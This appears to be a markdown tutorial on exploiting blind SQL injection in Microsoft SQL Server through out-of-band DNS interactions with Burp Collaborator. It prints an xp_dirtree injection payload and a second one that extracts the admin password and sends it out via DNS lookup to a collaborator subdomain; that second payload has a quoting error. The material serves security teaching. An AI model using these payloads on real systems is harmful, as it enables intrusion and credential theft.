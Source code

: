 # Exploiting blind SQLi using out-of-band  (OAST) techniques
#### In the context of exploiting blind SQL injections using out-of-band (OAST) techniques, when an application performs SQL queries asynchronously, traditional methods may not be effective.
#### The application continues processing the user's request in the original thread while using another thread to execute a SQL query . 
#### Unlike typical SQLi scenarios, the application's response doesn't rely on data retrieval, database errors, or query execution time. However, exploiting this vulnerability is still possible by triggering out-of-band network interactions to a controlled system. This involves using injected conditions to infer information gradually or direct exfiltrating data through network interactions.
**NOTE**: **DNS** (domain name service) is often a preferred protocol for out-of-band interactions, as many production networks permit free egress of DNS queries due to their essential role in system operation.
#### The most user-friendly and reliable tool for utilizing out-of-band techniques is **Burp Collaborator**. It functions as a server, offering custom implementation of various network services, including DNS.
#### With Burp Collaborator it's possible to identify instances when network interactions happen due to sending specific payloads to a vulnerable application.
* **Example**: To trigger a DNS query, the techniques employed are dependent on the type of database in use. For instance, consider the following input on Microsoft SQL Server, which initiates a DNS lookup on a specified domain:
* `; exec master..xp_dirtree'//32rf2f2f829f29fh29f2hf29fh2ay.burpcollaborator.net/a'--`
* Ths input prompts the database to perform a DNS lookup for the domain:
* `32rf2f2f829f29fh29f2hf29fh2ay.burpcollaborator.net`
* Burp Collaborator can then generate a unique subdomain, and by polling the Collaborator server, we can confirm when DNS lookups occur.
* Having identified a method to trigger out-of-band interactions, they can then utilize this channel to exfiltrate data from the vulnerable application.
* **For example**: 
#### `'; declare @s varchar(1024);set @s=(SELECT password FROM users WHERE username='admin');exec('master..xp_dirtree"//'+@s'+.32rf2f2f829f29fh29f2hf29fh2ay.burpcollaborator.net/a"'--`
* This input retrieves the password for the Administrator user, appends a unique Collaborator subdomain, and initiates a DNS lookup.